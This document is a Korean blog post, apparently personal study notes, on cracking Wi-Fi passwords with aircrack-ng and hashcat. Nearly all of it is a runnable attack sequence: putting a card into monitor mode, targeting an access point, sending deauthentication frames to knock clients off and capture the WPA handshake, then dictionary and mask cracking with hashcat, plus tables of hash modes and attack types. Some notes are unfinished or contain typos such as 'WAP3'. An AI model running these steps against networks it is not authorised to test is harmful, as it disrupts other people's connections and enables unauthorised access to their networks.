```yaml
---
layout: post
title: Aircrack-ng
subtitle: 무선AP 해킹
author: 마준영
categories: etc
tags:
---
```

```shell
iwconfig #랜카드 이름 확인
sudo airmon-ng start wlan0 #monitor모드 실행, wlan0은 랜카드 이름
sudo airodump-ng wlan0 #스캔 실행
iw list | grep -A 10 Frequencies #랜카드가 주파수 대역이 되는지 확인 Frequencies에서 확인가능
sudo airodump-ng wlan0 --channel 36 #특정 5GHz 채널만 스캔
sudo airodump-ng wlan0 --band a #`--band a` : 5GHz 대역
sudo airodump-ng wlan0 --band abg #`--band abg` : 2.4GHz + 5GHz 전체
sudo airodump-ng wlan0 --band bg #`--band bg` : 2.4GHz전체
sudo airodump-ng wlan0 --band a -w [파일명] #파일로 저장
sudo airodump-ng -c 11 --bssid [공유기 맥주소] -w [저장될 파일명] wlan0 #타겟을 정한 후 채널을 고정하여 스캔하며 대기
sudo aireplay-ng --deauth 10 -a [공유기 맥주소] -c [클라이언트 맥주소] wlan0 #클라이언트의 연결을 강제 종료, 재연결되면 handshake 패킷을 딸 수 있다. deauth는  try횟수
sudo aircrack-ng [캡처파일].cap -w [워드리스트] #사전공격
```

DATA : 패킷량 으로 추정

PSK : Presharedkey, 인데 wifi가 미리 공유된 key값을 이용해서 크랙이 일반적임
SAE,MGT : 찾아보기

WEP, WAP, WAP2, WAP3
OPN

4,6,7,19,25

Handshake 성공시 
![](/2025-03-25%2023%2039%2024.png)

Crack 성공시
![](assets/images/posts/2025-03-26-aircrack/a7623d10a8117b57a88d3995f81f0be8_MD5.jpeg)

## hashcat으로 크랙
딕셔너리 기반은 현실적이지 않은 것 같다.
hashcat으로 해보자.
```shell
aircrack-ng [파일이름].cap -J [출력파일명] #hasndshake가 있는 cap파일을 hashcat용으로 변환
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #안된다
```
- `-m 2500` → WPA/WPA2 (hccapx 포맷)
    
- `-a 0` → 사전(dictionary) 공격
    
- `handshake.hccapx` → 대상 해시 파일
    
- `/usr/share/wordlists/rockyou.txt` → 워드리스트 경로

뭔가 .cap에서 hashcat용으로 변환할때 문제가 있었던 것 같다.
전용 툴을 이용해서 변환해보자.
```shell
hcxpcapngtool -o [만드려는 파일명].hccapx [cap파일].pcapng #특이하게 원본 파일명이 뒤에옴
hcxpcapngtool -o home-01.22000 home-01.cap #확장자는 hccapx든 22000이든 상관 없는듯
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #만든 파일로 워드리스트 크랙하기, 2500은 구버전이라 안되는거같다. 22000으로 하는게 좋을듯
hashcat -m 22000 -a 3 home-01.22000 ?u?u?u?u?d?d?d?d #마스크공격 예시
```

| 옵션         | 의미                                          |
| ---------- | ------------------------------------------- |
| `-m 0`     | MD5                                         |
| `-m 100`   | SHA1                                        |
| `-m 22000` | **WPA/WPA2 (EAPOL + PMKID)** 👉 우리가 지금 쓰는 거 |
| `-m 2500`  | WPA/WPA2 (구버전 hccapx, 현재는 deprecated)       |
| `-m 3000`  | LM (Windows old password hash)              |
| `-m 1000`  | NTLM (Windows 로그인 해시)                       |

| 옵션     | 공격 방식                     | 설명                   |
| ------ | ------------------------- | -------------------- |
| `-a 0` | **Wordlist (Dictionary)** | 워드리스트에 있는 단어들로 대입 공격 |
| `-a 1` | Combination               | 두 워드리스트를 조합해서 시도     |
| `-a 3` | **Brute-force (마스크 공격)**  | 직접 문자 조합을 정의해서 전수조사  |
| `-a 6` | Hybrid Wordlist + Mask    | 단어 + 마스크 조합          |
| `-a 7` | Hybrid Mask + Wordlist    | 마스크 + 단어 조합          |
